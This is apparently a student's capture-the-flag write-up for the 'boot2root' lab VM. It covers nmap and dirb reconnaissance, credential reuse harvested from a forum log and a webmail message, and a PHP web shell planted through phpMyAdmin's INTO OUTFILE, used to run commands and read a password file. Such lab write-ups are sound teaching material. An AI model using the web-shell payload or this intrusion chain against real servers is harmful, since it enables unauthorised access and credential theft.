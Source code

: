 # Explore ISO file
Mount ISO file
```sh
┌──$ [~/42/2022/boot2root]
└─>  hdiutil mount BornToSecHackMe-v1.1.iso
/dev/disk2               /Volumes/BornToSec
```

Start explore ISO file before installing a VM.
```sh
┌──$ [~/42/2022/boot2root]
└─>  cd /Volumes/BornToSec
┌──$ [/Volumes/BornToSec]
└─>  tree -a
.
├── .disk
│   ├── base_installable
│   ├── cd_type
│   ├── info
│   └── release_notes_url
├── README.diskdefines              # file which may be referenced during installation
├── casper                          # folder containing the read-only part of the file system
│   ├── README.diskdefines          # file which may be referenced during installation
│   ├── filesystem.manifest         # file which contains information about the installation packages
│   ├── filesystem.manifest-desktop # file which contains information about the installation packages
│   ├── filesystem.size             # the required disk space for OS is usually twice the amount of bytes found in this file
│   ├── filesystem.squashfs         # read-only file system which is especially used to create Live CD
│   ├── initrd.gz                   # Gzip compressed data which provides the capability to load a RAM disk by the boot loader
│   └── vmlinuz                     # Linux kernel x86 boot executable
├── install
│   └── memtest
├── isolinux                        # the folder containing the loader isolinux.bin. It will search for the config file directory in the order /boot/isolinux, /isolinux, /
│   ├── boot.cat                    # file which is of no interest except it is required
│   ├── isolinux.bin                # a boot loader for ISO9660 (file system for CD-ROM disks)
│   ├── isolinux.cfg                # configuration file which contains directives settings for the color and the structure of the menu
│   ├── splash.png                  # screen image shown at boot
│   └── vesamenu.c32                # the program which displays the boot menu
├── md5sum.txt                      # fingerprint (checksum) of disk files
├── preseed                         # preseed allows to automate an installer by pre-specifying answers to installation questions
│   └── custom.seed                 # preconfiguration file
└── ubuntu

5 directories, 21 files
```











# Install ISO

Change the default networking mode of VM from NAT to Bridge to have more interaction between host machine and VM.
In bridged networking mode, the default gateway of VM is home router.
So, after start, VM will get the IP address in the same network range.
```sh
┌──$ [~/42/2022/boot2root]
└─>  VBoxManage modifyvm "boot2root" --nic1 bridged
```

Run the VM.
```sh
┌──$ [~/42/2022/boot2root]
└─>  VBoxManage startvm "boot2root" --type headless
Waiting for VM "boot2root" to power on...
VM "boot2root" has been successfully started.
```

Find the subnet address and the mask on which actuall device is running.
```sh
┌──$ [~/42/2022/boot2root]
└─>  ifconfig en0
en0: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 4c:32:75:9a:8f:4f
	inet6 fe80::c8e:b7dd:85d9:5032%en0 prefixlen 64 secured scopeid 0x7
	inet 192.168.0.13 netmask 0xffffff00 broadcast 192.168.0.255
	nd6 options=201<PERFORMNUD,DAD>
	media: autoselect
	status: active
```

```
0xffffff00 -> 255.255.255.0
192.168.0.13 & 255.255.255.0 = 192.168.0.0/24
```

Run a scan with `-sn` option to perform only host discovery without port scanning (aka "pign scan")
```sh
┌──$ [~/42/2022/boot2root]
└─>  sudo nmap -sn 192.168.0.0/24
Password: ******************
Starting Nmap 7.91 ( https://nmap.org ) at 2022-02-18 17:44 CET
[...]
Nmap scan report for 192.168.0.21                              # boot2root IP address
Host is up (0.00035s latency).                                 # boot2root VM status
MAC Address: 08:00:27:AC:88:E4 (Oracle VirtualBox virtual NIC) # boot2root MAC address
-
Nmap scan report for 192.168.0.13                              # my host
Host is up.                                                    # my host status
Nmap done: 256 IP addresses (6 hosts up) scanned in 23.57 seconds
```

# Nmap - discover open ports

Once IP address is found, run a scan with  `-p-`, `-sV` and `-O` options to scan ports from 1 through 65535, enable service/version detection to determine what application is running and enable OS detection. Aggressive scan may be performed using option `-A`.
<details>
<summary>Output of nmap</summary>

```shell
┌──$ [~/42/2022/boot2root]
└─>  sudo nmap -p- -sV -O 192.168.0.21
Password: ******************
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-15 09:55 EDT
Nmap scan report for 192.168.0.21
Host is up (0.00048s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
143/tcp open  imap     Dovecot imapd
443/tcp open  ssl/http Apache httpd 2.2.22
993/tcp open  ssl/imap Dovecot imapd
MAC Address: 08:00:27:FD:21:F4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.10, Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.01 seconds
```
</details>



The scan reveals that a few serices are running and their corresponding ports.

# Dirb - path traversal
A [path traversal attack](https://owasp.org/www-community/attacks/Path_Traversal) can be performed on HTTP and HTTPS ports using **dirb**.

[**dirb**](https://www.kali.org/tools/dirb/) is a web content scanner which will looks for existing web objects. It basically works by launching a dictionary based attack.

Run **dirb** on port 80 reveal that only `index.html` and `fonts/` are accessible.
<details>
<summary>Output of dirb</summary>

```shell
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.0.21

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Mar 15 10:28:02 2022
URL_BASE: http://192.168.0.21/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://192.168.0.21/ ----
+ http://192.168.0.21/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.0.21/fonts/
+ http://192.168.0.21/forum (CODE:403|SIZE:285)
+ http://192.168.0.21/index.html (CODE:200|SIZE:1025)
+ http://192.168.0.21/server-status (CODE:403|SIZE:293)

---- Entering directory: http://192.168.0.21/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
    (Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Tue Mar 15 10:28:13 2022
DOWNLOADED: 4612 - FOUND: 4
```
</details>


Running same scan, with `-r` option, on HTTPS port 443, reveal `forum`, `phpmyadmin` and `webmail` accessible.
<details>
<summary>Output of dirb</summary>

```shell
┌──(kali㉿kali)-[~]
└─$ dirb https://192.168.0.21:443 /usr/share/dirb/wordlists/common.txt -r

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Mar 15 10:35:54 2022
URL_BASE: https://192.168.0.21:443/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.0.21:443/ ----
+ https://192.168.0.21:443/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.0.21:443/forum/
==> DIRECTORY: https://192.168.0.21:443/phpmyadmin/
+ https://192.168.0.21:443/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.0.21:443/webmail/

-----------------
END_TIME: Tue Mar 15 10:36:13 2022
DOWNLOADED: 4612 - FOUND: 2
```
</details>


# Explore the forum
The forum on https://192.168.0.21:443/forum/, is claming in the title *HackMe*.

First, there is no way to create a new user, only to log in with existing one: `admin`, `lmezard`, `qudevide`, `thor`, `wandre` and `zaz`.

A post [Probleme login ?](https://192.168.0.21/forum/index.php?id=6) contains extract of `auth.log` file. `/var/log/auth.log` keeps authentication logs for successful or failed logins, and authentication processes.

Copy this log into a file and sort by users which tried to authentificate.
```shell
┌──$ [/tmp]
└─>  cat auth.log |  grep -o "user .* from" | sort -u
user !q\]Ej?*5K5cy*AJ from
user PlcmSpIp from
user adam from
user adm from
user admin from
user ftpuser from
user guest from
user nagios from
user naos from
user nvdb from
user pi from
user support from
user test from
user ubnt from
user user from
```
Only three users were succesefuly authenticated.
```shell
┌──$ [/tmp]
└─>  cat auth.log |  grep -o "session opened for user .*"  | sort -u
session opened for user admin by (uid=0)
session opened for user lmezard by (uid=1040)
session opened for user root by (uid=0)
session opened for user root by admin(uid=0)
session opened for user root by admin(uid=1000)
```
It seems clearly that user which tried to authentificate misstyped password instead of username `!q\]Ej?*5K5cy*AJ`. As succesefuly authenticated users are determined, try to log in forum under of one of those users.

The password allowed to authentificate on the [forum](https://192.168.0.21/forum) as `lmezard` user, but not on [webmail](https://192.168.0.21/webmail) and [phpmyadmin](https://192.168.0.21/phpmyadmin/).

On [Edit Profile](https://192.168.0.21/forum/index.php?mode=user&action=edit_profile) page the email of profile is `laurie@borntosec.net`.

# Webmail
Using the initial password `!q\]Ej?*5K5cy*AJ` and the `laurie@borntosec.net` allow to connect [webmail](https://192.168.0.21/webmail).

An email from `qudevide@mail.borntosec.net` contains credentials `root/Fg-'kKXBj87E:aJ$` to access DB [phpmyadmin](https://192.168.0.21/phpmyadmin/).

# phpMyAdmin - injection of web shell

Once logedd into [phpmyadmin](https://192.168.0.21/phpmyadmin/) a [webshell](https://en.wikipedia.org/wiki/Web_shell) can be injected using `OUTFILE` statement. But it requires to find a writtable directory of Apache web server where the webshell can be put in. To do so, **dirb** can be runned on [https://192.168.0.21/forum](https://192.168.0.21/forum).
<details>
<summary>Output of dirb</summary>

```shell
┌──(kali㉿kali)-[~]
└─$ dirb https://192.168.56.101/forum

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Apr  4 10:20:26 2022
URL_BASE: https://192.168.56.101/forum/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: https://192.168.56.101/forum/ ----
+ https://192.168.56.101/forum/backup (CODE:403|SIZE:295)                                                                           
+ https://192.168.56.101/forum/config (CODE:403|SIZE:295)                                                                           
==> DIRECTORY: https://192.168.56.101/forum/images/                                                                                 
==> DIRECTORY: https://192.168.56.101/forum/includes/                                                                               
+ https://192.168.56.101/forum/index (CODE:200|SIZE:4935)                                                                           
+ https://192.168.56.101/forum/index.php (CODE:200|SIZE:4935)                                                                       
==> DIRECTORY: https://192.168.56.101/forum/js/                                                                                     
==> DIRECTORY: https://192.168.56.101/forum/lang/                                                                                   
==> DIRECTORY: https://192.168.56.101/forum/modules/                                                                                
==> DIRECTORY: https://192.168.56.101/forum/templates_c/                                                                            
==> DIRECTORY: https://192.168.56.101/forum/themes/                                                                                 
==> DIRECTORY: https://192.168.56.101/forum/update/                                                                                 
                                                                                                                                    
[...]
                                                                               
-----------------
END_TIME: Mon Apr  4 10:20:30 2022
DOWNLOADED: 4612 - FOUND: 4

```
</details>


`/var/www/` is the default installation directory for Apache2 and forum is located inside this directory. So, trying to execute following SQL query allow to write a file into `/var/www/forum/templates_c/`. 
`templates_c` is a ...
```sql
SELECT "<pre><?php system($_GET['cmd'])?></pre>" INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```
Once the query is executed and confirmation message is prompted `Your SQL query has been executed successfully ( Query took 0.0002 sec )` the webshell can be accessed at [https://192.168.56.101/forum/templates_c/shell.php](https://192.168.56.101/forum/templates_c/shell.php). 

As the PHP super global variable `$_GET` is used to collect data sent in the URL, the parameters `cmd` is sent to shell.php and evaluated by `system()`.

So passing, for example, `id` in `cmd` parameter gives an output of executed command (https://192.168.56.101/forum/templates_c/shell.php?cmd=id)
```shell
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```
From here, find all file belongs to a user called “www-data” in / file system:
https://192.168.56.101/forum/templates_c/shell.php?cmd=find+/home+-user+www-data
```
/home
/home/LOOKATME
/home/LOOKATME/password
```
Running [cmd=cat /home/LOOKATME/password](https://192.168.56.101/forum/templates_c/pre.php?cmd=cat%20/home/LOOKATME/password) prints the content of the file which is credential to log into `lmezard`.
```
lmezard:G!@M6f4Eatau{sF"
```
